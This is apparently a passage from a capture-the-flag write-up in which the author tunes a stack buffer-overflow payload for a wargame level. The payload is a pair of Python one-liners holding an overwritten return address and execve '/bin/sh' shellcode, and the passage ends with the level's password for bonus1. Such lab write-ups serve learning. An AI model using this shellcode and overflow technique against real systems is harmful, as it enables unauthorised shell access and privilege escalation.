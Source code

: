 again the same problem

I tried to put cat instead of `/bin/sh` but it did not work either

so I'll try to input shell as second parameter and see what is the difference? I have no idea, I'm just
trying different stuff

let's try this one

```py
python -c 'print "\x90"*4094 + "\x0a"'

python -c 'print "A"*14 + "\xb4\xe6\xff\xbf" + "A"*82+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "C"*3967 + "\x0a"'
```

![](./pics/49.png)

as you can see I missed by additional 5, let's correct for that 


```py
python -c 'print "\x90"*4094 + "\x0a"'

python -c 'print "A"*9 + "\xb4\xe6\xff\xbf" + "A"*87+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "C"*3967 + "\x0a"'
```

##### Password For bonus1

```
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```